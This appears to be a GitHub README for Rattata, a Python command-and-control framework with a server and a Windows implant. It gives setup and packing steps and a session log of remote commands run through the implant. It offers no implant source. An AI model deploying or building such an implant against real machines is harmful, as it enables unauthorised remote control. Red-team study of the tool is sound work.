 # Rattata
Rattata is a python 2.7 based C2 framework designed to be similiar to Metasploit's Meterpreter in functionality (albeit not nearly as functional). Rattata consists of a server and implant (windows based client). The idea is to either use the implant as is or compile to stand-alone executable files with either Pyinstaller or Py2exe (both have been tested, however comment out killParent() function in implant.py if using Py2exe).

Please use this responsibly for learning and research purposes. The author will not be help responsible for misuse of this software as outlined in the LICENSE.

This was also my first actual programming project, so I'm sure it's riddled with bugs. Let me know if you have ways to improve it!

## Installation

`pip install -r requirements.txt`

The implant also requires Pywin32 for the Windows API componets of the implant. It's recommended to use a program such as UPX packer to reduce the size of the executable.

## Usage

You will need to edit the lhost and lport variables in the implant files to point to your C2 server. It's also recommended to change the CIPHER key in both the server and the implant. The nix implant does not contain the same functionality as the windows implant

`python server.py <C2 server address> <listening port>`

Next, edit the implant.py file to point the lhost and lport variabels to your C2 server. 

`python implant.py`

## Session Management

Rattata allows for multiple connections to the server and subsequent session management. To be able to interact with new sessions, the command `checkconns` will need to be issued from the main menu, see example below. *Note: The session management doesn't work apparently, while the server can handle multiple connections you can only interact with one thread at a time, working on this.

```
[*] Waiting for connection...

[+] Connection recieved from 127.0.0.1:44996

rattata>list
[*] Available implant connections

[*] Format: <session_id> <ipaddress:port>

 1 127.0.0.1:44996 (Established)


rattata>interact 1
127.0.0.1:rattata>whoami
[+] Sent command 'whoami' to implant!
[+] Result from implant:
dev

127.0.0.1:rattata>back
rattata>checkconns
[+] Connection recieved from 127.0.0.1:45002

rattata>list
[*] Available implant connections

[*] Format: <session_id> <ipaddress:port>

 1 127.0.0.1:44996 (Established)


 2 127.0.0.1:45002 (Established)


rattata>interact 2
127.0.0.1:rattata>whoami
[+] Sent command 'whoami' to implant!
[+] Result from implant:
dev

127.0.0.1:rattata>back
rattata>list
[*] Available implant connections

[*] Format: <session_id> <ipaddress:port>

 1 127.0.0.1:44996 (Established)


 2 127.0.0.1:45002 (Established)


rattata>quit
[*] Exiting Rattata...
```

## TODO

#### Add Upload/Download functionality

## Big Thanks
I really want to thank @HackingDave from [TrustSec](https://www.trustedsec.com/) for all his great work and amazing contributions to the community. A lot of the code in Rattata is based off of his [TrevorC2](https://github.com/trustedsec/trevorc2) project. 

Also want to thank the guys at [Black Hills Info Sec](https://www.blackhillsinfosec.com/) for their amazing work and [vsagent](https://github.com/rev10d/504vsa) which was the original idea that got me working on this project.
